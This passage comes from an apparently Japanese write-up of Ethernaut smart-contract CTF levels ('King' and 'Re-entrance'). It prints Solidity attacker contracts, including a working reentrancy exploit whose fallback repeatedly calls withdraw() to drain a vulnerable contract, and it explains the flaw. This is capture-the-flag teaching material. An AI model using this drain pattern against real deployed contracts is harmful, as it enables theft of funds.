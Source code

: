 ```
contract Attacker {
    function Attacker() public payable {
        address victim = 0x3C4d1E25Cc0B115E3a9b1c0D04bEFbE94406C83E;
        victim.call.gas(1000000).value(msg.value)();
    }
}
```

最初は `victim.send(msg.value);` と書いていたのだが、out of gas例外が発生して
上手く動かなかった。調べると、 `send()` は呼び出し先へのメソッドへgasを伝播
しないということが[わかった](https://ethereum.stackexchange.com/questions/6470/send-vs-call-differences-and-when-to-use-and-when-not-to-use)。
`King` コントラクトのfallbackメソッドでは、ストレージへ書くなどgasコストが高い
処理をしているので、out of gas例外が発生していたというわけだ。そこで、
`.call.value()` へ書き換えた。それでもgasが足りなかったので、明示的に
gasを付与するようにした。

## 7. Re-entrance

```
contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  ...

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  ...
}
```

`withdraw()` がリエントラントでない。受取先のコントラクトのfallbackメソッドで
`withdraw()` を呼べば、相互再帰が発生して、`Reentrance` コントラクトの残高か
gasが尽きるまで `withdraw()` が繰り返し実行される。

```
contract Attacker {
    address constant victim = 0x0f4108dae2ab39f5c6fc7855dbbe8f8a988be112;

    function exec() public payable {
        victim.call.value(0.1 ether)(bytes4(keccak256("donate(address)")), this);
        victim.call(bytes4(keccak256("withdraw(uint256)")), 0.1 ether);
    }

    function() public payable {
        victim.call(bytes4(keccak256("withdraw(uint256)")), 0.1 ether);
    }
}
```
